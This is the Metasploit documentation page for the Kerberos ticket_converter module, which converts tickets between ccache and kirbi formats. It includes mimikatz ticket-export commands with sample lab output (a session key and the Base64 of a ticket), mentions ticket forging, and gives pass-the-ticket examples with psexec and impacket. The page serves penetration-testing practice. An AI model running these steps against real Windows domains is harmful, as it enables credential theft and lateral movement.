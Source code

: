 ## Converting Kerberos Tickets

The `auxiliary/admin/kerberos/ticket_converter` module is used to convert from a ccache file format to the kirbi file format and vice versa.
The main reason you may want to convert between these file types is for use in different tools.
For example mimikatz will create tickets for you in the kirbi format but to use that in another tool
like Metasploit or Impacket you need to convert it to the ccache format first.

## Acquiring tickets

Kerberos tickets can be acquired from multiple sources. For instance:

- Retrieved directly from the KDC with the `get_ticket` module
- Forged using the `forge_ticket` module after compromising the krbtgt or a service account's encryption keys
- Extracted from memory using Meterpreter and mimikatz:

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > kiwi_cmd "sekurlsa::tickets /export"

Authentication Id : 0 ; 1393218 (00000000:00154242)
Session           : Network from 0
User Name         : DC3$
Domain            : DEMO
Logon Server      : (null)
Logon Time        : 1/12/2023 9:11:00 PM
SID               : S-1-5-18

	 * Username : DC3$
	 * Domain   : DEMO.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?
	 [00000000]
	   Start/End/MaxRenew: 1/12/2023 7:41:41 PM ; 1/13/2023 5:37:45 AM ; 1/1/1601 12:00:00 AM
	   Service Name (02) : LDAP ; DC3 ; @ DEMO.LOCAL
	   Target Name  (--) : @ DEMO.LOCAL
	   Client Name  (01) : DC3$ ; @ DEMO.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000012 - aes256_hmac
	     ab64d555f18de6a3262d921e6dc75dcf884852f551db3114f7983dbaf276e1d6
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 7	[...]
====================
Base64 of file : [0;154242]-1-0-40a50000-DC3$@LDAP-DC3.kirbi
====================
doQAAAYXMIQAAAYRoIQAAAADAgEFoYQAAAADAgEWooQAAAS2MIQAAASwYYQAAASq
MIQAAASkoIQAAAADAgEFoYQAAAAMGwpBREYzLkxPQ0FMooQAAAAmMIQAAAAgoIQA
AAADAgECoYQAAAARMIQAAAALGwRMREFQGwNEQzOjhAAABFcwhAAABFGghAAAAAMC
... etc...
====================
```

Note that tools often Base64 encode the Kirbi content to display to the user. However the `inspect_ticket` module expects
the input file to be in binary format. To convert base64 strings to binary files:

```
# Linux
cat ticket.b64 | base64 -d > ticket.kirbi

# Mac
cat ticket.b64 | base64 -D > ticket.kirbi

# Powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/ticket_converter`
3. Do: `set InputPath /path/to/ccache/or/kirbi/file`
4. Do: `set OutputPath /path/to/save/your/converted/file`
5. Do: `run`
6. You should see output similar to:
   ```
   [*] [2022.12.16-12:52:56] Converting from ccache to kirbi
   [*] [2022.12.16-12:52:56] File written to <OutputPath>
   [*] Auxiliary module execution completed
   ```
7. Your converted ticket which will have been stored at `OutputPath`
8. Example usage in Metasploit:
   ```
   use windows/smb/psexec
   run rhost=192.168.123.13 username=Administrator domaincontrollerrhost=192.168.123.1 smbauth=kerberos smbrhostname=host.demo.local smbdomain=demo.local smbkrb5ccname=/path/to/ccache/ticket 
   ```
9. Example usage in impacket:
   ```
   export KRB5CCNAME=/path/to/ccache/ticket
   python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
   ```
10. You may use the `inspect_ticket` module to prints the contents of the ccache/kirbi file:
   `use auxiliary/admin/kerberos/inspect_ticket`

## Scenarios

### You have a ccache file

If you have a ccache file, for example by forging it using the `auxiliary/admin/kerberos/forge_ticket` module,
but need a file in the kirbi format which is commonly used by mimikatz.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.ccache outputpath=metasploit_ticket.kirbi

[*] [2023.01.05-17:01:02] Converting from ccache to kirbi
[*] [2023.01.05-17:01:02] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.kirbi
[*] Auxiliary module execution completed
```

### You have a kirbi file

The other scenario is if you have a kirbi file, for example tools such as mimikatz will give you tickets in the kirbi format,
and you need a ccache for use with another tool such as Metasploit and Impacket.

The steps are exactly the same for a kirbi file as they are for a ccache as Metasploit will automatically detect the input file type.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.kirbi outputpath=metasploit_ticket.ccache

[*] [2023.01.05-17:01:39] Converting from kirbi to ccache
[*] [2023.01.05-17:01:39] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.ccache
[*] Auxiliary module execution completed
```
